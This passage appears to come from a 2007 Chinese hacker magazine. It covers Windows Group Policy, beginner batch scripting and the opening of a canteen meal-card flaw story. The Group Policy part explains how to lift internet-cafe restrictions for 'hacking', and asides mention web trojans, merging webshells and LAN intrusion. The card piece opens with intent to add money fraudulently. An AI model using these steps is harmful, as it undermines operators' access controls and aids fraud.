

图 8 确认收到的礼物

如果你购买东西的话，还可以得到绿钻和抽奖机会等，可谓双全其美呀！但是大家注意，一定要在 2007 年 11 月 28 日之前去参加这个活动哦！要不然……过了这个村就没有这个店了……呵呵！



图 9 提现页面

> **编辑点评：**
现在网上购物的资金流动基本上都会采用中间交易平台过渡，也就是买卖双方在中间交易平台进行资金的转换。本文属于实用技巧类，感谢作者，感谢 QQ，虽然只有 1 个月，也够爽快一把了。不过开通时间大约在 24 小时之内，各地各人有所不同吧（靠 RP 啊！），偶怎么感觉等待比较长呢……

可以看到如图 1，这就是组策略了！

在图中我们看到组策略的左侧窗口分为两部分的：“计算机配置”和“用户配置”，它们没有太大的差别，在“计算机配置”中进行的设置，系统启动后就会生效，而“用户配置”中的设置项，需要用户登录后才会生效！主要原因是前者对应注册表中的 [HKEY_LOCAL_MACHINE] 根键，而后者对应注册表中的 [HKEY_CURRENT_USER] 根键。（编辑：这里我坐下补充，计算机配置中所做的修改是对整个系统都有效，就是说对每个登录用户都有效，而在后者下所做的修改只对当前登录用户有效）

### 2、对其它计算机的组策略进行远程设置

上面说了如何打开本地的组策略，如果我们要远程设置其它计算机的组策略，首先需要在“运行”中输入 MMC，打开控制台程序，然后在“文件”中选择“添加删除管理单元”，单击“添加”按钮，在弹出的对话框中找到“组策略对象编辑器”，如图 2 所示。



在弹出的“选择组策略对象”中，单击“浏览”出现如图 3 的界面，选中“另一台计算机(C)”，然后按照提示就可以对其它计算机进行远程设置了！



### 3、当组策略无法运行的时候怎么办？

组策略的威名现在是越来越响，所以很多在网吧进行限制突破的朋友经常碰到组策略无法打开的情况。

错误一：Windows 找不到文件“gpedit.msc”……，如图 4 所示。



错误原因：gpedit.msc 文件被重命名或者被删除。

解决方法：在网上有别人提取出来的 gpedit.msc，下载到本地计算机运行即可；如果是被重新命名了，我们在“运行”中输入 MMC，打开“文件”，我们会看到一些曾经打开的文件，大家可以在图 5 中看到 c:\windows\...\gpeditbak.msc，这个就是被修改了名字的组策略编辑器，在“运行”中输入这个重新命名的命令就可以打开了！



错误二：未能打开这台计算机上的组策略对象，您可能没有合适的权限，如图 6 所示。

错误原因：对系统盘 c:\windows\system32 文件夹下的隐藏文件夹 GroupPolicy 进行了权限设置。



解决方法：找到该隐藏的文件点右键，在“属性”的“安全”选项卡中重新进行权限设置！

另外有时候，还会因为在控制台程序中没有添加组策略而导致无法运行；解决的方法是首先在“运行”中输入 MMC，打开控制台，单击“文件”——“添加删除管理单元”，单击“添加”，在弹出的界面中找到“组策略”，然后确定添加就可以了！

实践是检验真理的唯一标准，先让我们看看组策略在网吧限制中所起的作用！

## 二、网吧限制我不怕不怕啦

网吧限制是我们网吧一族学习网络安全技术的障碍，用第三方的工具有时候还无法下载，所以寻找一个系统的叛徒势在必行，而组大叔是一个双刃剑，我们可以利用它突破限制，也可以设置自己机器的安全，我们先看组大叔的三板斧如何突破网吧限制！

### 1、无法访问注册表和 CMD

如果要在网吧玩黑，我们根本不能离开 CMD，有时候还会用到注册表突破一些限制，先看看我们是如何利用组策略突破 CMD 和注册表的限制！



在网吧运行 CMD 和注册表编辑器的时候如果提示如图 7 和 8 的错误，这是典型的组策略设置问题。


我们可以在运行中输入 gpedit.msc，找到“用户配置”——“管理模板”——“系统”，如图 9 所示。


在右侧窗口中找到“阻止访问注册表编辑工具”和“阻止访问命令提示符”，双击后将其设置为“已禁用”就可以突破限制了！

### 2、无文件夹选项

在入侵一些站点的时候，我们需要不停的更改 WEB 木马的文件后缀，但是有些网吧不仅无法查看文件后缀，而且在“工具”菜单中没有“文件夹选项”，这样的限制我们也可以通过组策略来进行突破！

在组策略中依次找到“用户配置”——“管理模板”——“Windows 组件”——“Windows 资源管理器”，如图 10 所示。在右侧的窗口中我们会看到“从‘工具’菜单中删除‘文件夹选项’菜单”，将其设置为“已禁用”就可以了！


### 3、开始菜单中无运行、无注销

在网吧有时候我们需要注销计算机从而使某些设置生效，但是往往在“开始”菜单中不会有注销项，想在“运行”中输入 shutdown -l 进行注销，但是也不存在“运行”怎么办？

在组策略中找到“用户配置”——“管理模板”——“任务栏和[开始]菜单”项，在右侧窗口中将“从[开始]中删除‘运行’菜单”设置为“已禁用”就可以了！

### 4、无法使用任务管理器

有时候我们需要运行任务管理器结束一些进程，但是当按下 ctrl+alt+del 键的时候会出现错误提示：“请与管理员联系……”之类云云，如何解决呢?

在组策略中，我们可以找到“用户配置”——“管理模板”——“系统”——“CTRL+ALT+DEL 选项”，将“删除‘任务管理器’”设置为“已禁用”就可以打开任务管理器了。

### 5、在“我的电脑”的快捷菜单中不存在“管理”

有时候我们需要在“我的电脑”上打开“管理”，通过它实现内网简单入侵或者查看隐藏磁盘的信息，但是很多网吧管理软件都不让计算机显示该选项！

我们可以在组策略中进行如下设置以达到突破限制的目的，依次找到“用户配置”——“管理模板”——“Windows 组件”——“Windows 资源管理器”，在右侧窗口中“隐藏 WINDOWS 资源管理器右键菜单上的‘管理’项目”设置为已禁用就可以了，如图 11 所示。


大黑师傅说了很多设置，但是小黑哥只记下了这些，下面还有更重要的东西等我学习哦！

## 三、用组策略配置本地计算机安全

#### 1、使用组策略进行一些常规安全设置

- A: 在组策略左侧窗口中依次找到“用户配置”——“管理模板”——“网络”——“网络连接”，在右侧窗口中将“删除所有用户远程访问连接”设置为“启用”，这样如果有非法入侵者连接本地计算机就会强制断开连接，从而保护计算机安全！
- B: 在组策略中定位到“计算机配置”——“WINDOWS 设置”——“安全设置”——“本地安全策略”——“用户权利指派”，在右侧窗口中，找到“拒绝从网络访问这台计算机”，双击选项后，在弹出的窗口中确定 guest 账户在列表中，如果没有通过“添加用户或组”进行添加，这样可以保证本地信息不被 guest 账户登录后访问！
- C: WINDOWS XP 自带了防火墙，但是默认状态与专业防火墙是有很大差距的，我们可以通过组策略提高自带防火墙的威力，依次定位到“计算机配置”——“管理模板”——“网络”——“网络连接”——“WINDOWS 防火墙设置”——“标准配置文件”，将右侧窗口中的“WINDOWS 防火墙：保护所有网络连接”设置为“已启用”，这个设置可以防范入侵者在 cmdshell 中使用 net stop 关闭防火墙，另外还应该把“WINDOWS 防火墙：允许 UPNP 框架例外”和“WINDOWS 防火墙：允许文件和打印共享例外”设置为“已禁用”。
- D: 在组策略中，找到“计算机配置”——“WINDOWS 设置”——“安全设置”——“本地安全策略”——“安全选项”，在右侧窗口中将“网络访问：不允许 SAM 账号和共享的匿名枚举”设置为“已启用”，这样可以确保本地共享资源的密码不被暴力破解，防止共享信息外露！（编辑：准确地说应该是无法远程枚举本机账户了）

#### 2、防范网络攻击，IPSEC 安全包的安装

有很多人通过 IPSEC 设置将一些高危端口关闭了，我们可以直接利用这些 IPSEC 安全包，通过组策略导入系统，实现计算机的安全。这里以金山毒霸的 IPSEC 安全策略为例。

首先我们到金山毒霸的网站下载 ipsec 安全包，然后解压缩，

得到文件 Firewall.ipsec，然后打开“策略”窗口，在窗口左侧依次展开“计算机配置—— Windows 设置——安全设置—— IP 安全策略，在本地计算机”，右击右侧窗格，选择“所有任务→导入策略”，然后选择解压缩后的 Firewall.ipsec。如果右侧窗格中出现了“HFU_SECU”项，则表示导入成功，如图 12 所示。


如果需要添加更多的策略，则可右击右侧窗口，在弹出菜单中选择“管理 IP 筛选器表和筛选器操作”项，然后通过“添加”按钮进行添加。

#### 3、利用组策略让流氓软件不再流氓

首先我们要找到流氓软件的安装文件，这些文件大多存在于程序的安装包中，我们可以通过查看 TEMP 文件夹或是解压缩后得到，然后依次找到组策略中的“计算机配置—— Windows 设置——安全设置——软件限制策略——其他规则”，在窗口右侧空白处，选择“新散列规则”，在弹出的窗口中单击“浏览”，选择恶意软件的恶意文件，并将安全级别设置“不允许”的，“确定”后就完成设置了！

#### 4、使用组策略防范 U 盘病毒传播

autorun.inf 文件的病毒虽然原理简单，但是传播非常迅速，要防范它只要组策略就可以实现！

打开组策略，在左侧依次定位到“用户配置”——“管理模板”——“WINDOWS 组件”——“WINDOWS 资源管理器”，在右侧将“防止从‘我的电脑’访问驱动器”设置为“已启用”，但是在选择组合中只有几种简单的组合，如图 13 所示。


如果选择限制所有磁盘驱动器，还会影响我们的日常操作，另外 U 盘还可以有好多个分区，所以我们要修改组合！具体的方法如下：

首先依次在系统盘中定位到 %systemroot%\system32\grouppolicy\adm\，用记事本打开文件夹下的 system.adm。

grouppolicy 文件夹默认状态下是隐藏，所以要在“工具”——“文件夹选项”的“查看”选项卡下，将“显示所有文件和文件夹”前面的勾打上，如图 14。


在打开的文件中搜索“ABOnly”，可以找到“NAME !!ABOnly VALUE NUMERIC 3”类的代码，根据“Low 26 bits on (1 bit per drive)”（26 位每个设备占一位），每个分区按 1、2、4、8、16、32 依次递增，也就是说驱动器 A 对应 1，B 对应 2，C 和 D 分别对应 4 和 8，如图 15。

如果要禁止G盘就是 NAME !!GOnly VALUE NUMERIC 64，依次类推，如果我们要求禁止GHIJ四个驱动器，那么根据上面的规则GHIJ分别对应64、128、256、512，那么我们就可以添加这样的字符串：NAME !!GHIJOnly VALUE NUMERIC 960，然后我们在文件中分别搜索 NoDrives_Help 和 NoViewOnDrive_Help，在其下面的代码中加上 NAME !!GHIJOnly VALUE NUMERIC 960，修改后代码如图16所示。

然后再找到 [strings] 代码段，添加一行 GHIJOnly="仅限制驱动器G、H、I、J"，如图17所示。

然后重新打开组策略看一下我们的效果，如图18所示。

对于组策略，大黑师傅说一定要知道这玩意的所有操作都是对注册表做的修改！大家可以随意设置，通过注册表监视器监视注册表键值的改变，以进一步的学习哦！

> > [文章中涉及到的ipsec文件光盘中有收录]

### 编辑点评：

常看手册的朋友对组策略这个东西一定不会陌生，从一些作者的介绍到某些文章中涉及到，大家都已经对它形成了“功能强大的系统工具”的印象了吧！这么说它真的不为过（其实 Windows 中还有多少这样的好东东呢！），这篇文章对组策略的几个重要作用做了一个小的总结，每个方面举了几个简单的例子，大家根据作者提供的方法和步骤进行更深入的探索，你会发现它还有很多好玩的地方。组策略是一个和系统及网络安全都密切相关的工具，学习它有助于大家了解 Windows 安全及一些防御的策略。还没有玩过组策略的朋友就要赶快了，老手的话可以尝试自己编写策略模板文件，制定符合自己系统和个性的专属策略吧！

# 小菜学 BAT 初级篇

文/路雪

从本文中你可以学到：

- 如何获取命令的帮助信息
- 批处理中的几个符号的作用
- 几个常见批处理命令的用法

自从当初的 Win95 到现在的 Windows VISTA，图形界面的操作系统越来越漂亮、强大。可有时候，Windows 下复杂的操作在命令提示符下往往可以轻松完成。尤其是在入侵时，命令提示符更是黑客们的得力助手。而批处理是基于命令提示符的，它可以使命令行操作更加强大方便。

批处理程序也称批处理脚本，它的后缀名是 bat 或 cmd，可以直接用记事本打开，而不需要专门的编辑器。在学习批处理之前我们要简单了解几个常用的 cmd 命令。按下 WIN+R 弹出运行对话框，输入 cmd 后回车，就打开了命令提示符。运行 HELP，Windows 会把常用的命令都列出来，如图1。

输入任意命令+空格+/? 可以查看该命令的详细参数（或者使用 help+空格+命令名，当然这里的命令名必须是在输入 help 后可以显示的），如图2。

少数程序在不输入参数的情况下也会列出参数，如 shutdown.exe，大家可以逐个自行测试，一些命令我会在以后的示例中加以介绍。现在，我们还要认识几个在批处理中十分重要的连接和重定向符号，如图3。

此外还有 < 符号可以把文本内容作为参数，在用 nc 提交数据的时候会用到。下面我们就利用批处理写几个实

例1：硬盘有价，数据无价。养成常备份文件的好习惯，可以最大程度减少数据意外损坏或丢失造成的损失。

| 符号 | 用法 | 作用 |
| :--- | :--- | :--- |
| & | cmd1&cmd2 | 按照顺序执行 cmd1 和 cmd2，不论前者是否执行成功 |
| && | cmd1&&cmd2 | 只有当 cmd1 执行成功时才执行 cmd2 |
| \|\| | cmd1\|\|cmd2 | 只有当 cmd1 执行失败时才执行 cmd2 |
| \| | cmd1\|cmd2 | 把 cmd1 的执行结果当作 cmd2 的参数 |
| ^ | ^cmd1 | 转义字符，把后面的特殊符号当作普通字符处理 |
| @ | @cmd1 | 不显示 cmd1 的命令，但不会屏蔽其结果输出 |
| > | cmd1>c:\a.txt | 把 cmd1 的执行结果输出到 c:\a.txt，不存在就新建，存在就先清空 |
| >> | cmd1>>c:\a.txt | 把 cmd1 的执行结果输出到 c:\a.txt，不存在就新建，存在就写入其末尾 |

图3 命令连接和重定向符号

打开记事本，输入以下命令后保存为 backup.bat：

```
Copy C:\Documents and Settings\[用户名]\My Documents\ U:\backup\%date%
```

其中[用户名]是你的系统登录用户名，U:是 U 盘盘符。双击这个批处理就会把我的文档里的文件复制到 U:\backup\下以当前系统日期命名的文件夹中。如果你想复制到固定文件夹的话只要把 %date% 去掉就可以了。

> 小知识：%date%，系统内置环境变量，返回系统当前日期，与此类似的还有 %time%；Copy，复制命令。用法在 copy /? 中介绍得很清楚，入侵时也常用这个命令把 webshell 与数据库文件合并。

例2：自动分类。用 Thunder 或 FlashGet 下载文件默认会放到已下载类别，比如迅雷会下载到 C:\TDDownload\ 下面，这很不方便，如何让它自动分类呢？还要让批处理来帮忙。下面是批处理的内容：

```
Rem 图片
Move c:\tddownload\*.jpg c:\tddownload\图片\nRem 音乐
Move c:\tddownload\*.mp3 c:\tddownload\音乐
```

按照这种格式，你可以添加更多类型。

> 小知识：rem，注释符，其后的内容不会被执行，只是给人看的；
Move 命令用来移动文件，也就是我们平常执行的剪切的操作，格式：move file1 file2，把 file1 移动到 file2。

例3：保护隐私。大家肯定都很讨厌有人当你不在时偷开你的电脑看你的隐私吧！我们来做一个批处理，让 U 盘来帮你锁住电脑，保护隐私。假设 U 盘盘符是 U:，在 U 盘上新建一个空的文本文件重命名为 lock.key（随便什么名字都可以），将其设为隐藏属性。新建批处理 lock.bat。内容如下：

```
@echo off
If not exist u:\lock.key shutdown -s -t 5
```

把 lock.bat 放到“启动”文件夹，设为隐藏。以后每次开机时只有把这个 U 盘插上电脑才能正常使用，否则会弹出警告并在 5 秒内关机，如图4。

> ### 小知识：
if：用于条件判断，会编程的朋友都不会陌生吧。它有三种格式：
- 格式1、if “变量名或常数” == “变量名或常数” 命令。注意有两个等号，这和 PHP 很像，但是无论是变量还是常数都要在外面加上引号，这和一般的编程语言不同。当双等号两边的值相等时执行后面的命令。
- 格式2、if (not) exist file 命令。当 file 存在（有了 not 为不存在）时执行命令。
- 格式3、if (not) errorlevel 数字 命令。当返回码等于或大于（有了 not 为小于）指定数字时执行命令。

Shutdown：用来关机和重启。Shutdown /? 已经介绍得很清楚了。还有，参数中的 5 指的是提醒时间，单位是秒，默认值是 30，注意不要把设置得太长，否则别人可以及时进 cmd 运行 shutdown -a 即可取消关机任务，使用 -f 选项可以强制关机。（小编：-t 后面直接把 5 设置为 0 不就可以了，我经常这么干～）
Echo off，表示以下的所有命令都不显示回显。

《小菜学 BAT》的初级篇就到这里了，希望大家好好消化，中级篇会给大家讲到变量和基础的网络应用，想学的还不快顶！！！敬请期待哦～

[文章中涉及到的批处理光盘中有收录]

> **编辑点评：**
一看就懂，这样的文章小菜最喜欢了。cmd 命令和批处理一直是黑客的必备技能，所以大家可要好好掌握了。作者介绍了一些命令和符号的用法，但并不是都给列出了，要想完全掌握批处理的编写或玩出花样，大量的实践是必不可少的。批处理的知识还不止这些，看看下期作者能给我们带来一些什么好东东。

# 食堂刷卡机机制中的“IP欺骗”

图 红秀才

- 从本文中你可以学到：
1、食堂刷卡机的一种漏洞利用方法
2、漏洞产生的原理

在高一开学来报到时，看到食堂是刷卡机制，由电脑管理，当时就动起邪念了：入侵食堂电脑主机，给自己饭卡加点钱。但观察了一段时间发现那台连着刷卡机的电脑根本不设联网，连校园网都没连，那就说不用不上入侵，哎~~让我不得开启心愿……
但后来一次偶尔的经历，让我彻底开窍了。在一天早上，我去打早饭，因为我朋友没带饭卡，所以我就帮他刷，我在我对面的窗口刷了一下。显示饭卡上总共有150元（显示延时时间：30秒），然后我把饭卡给了我朋友，他在他相对的窗口刷了一下。这时候，工作人员和我相对的窗口操作：扣取2.5元。我这边显示的余额是：147.5元。我朋友那边金额没改变，还显示的是150元。这时候，工作人员在我朋友那边操作扣取2元（他比我吃的少，嘿嘿\~\~\~~）但没显示金额。我随手在刷卡机上查了一下我的余额还是147.5元，难道他的没刷上？

我在早读时间，一边吃着打回来早饭，一边想着……终于让我我想“明白”了！原来是这样子的：我们假设食堂主机的数据库作为 M，把饭卡（金额）作为一个数据 N。
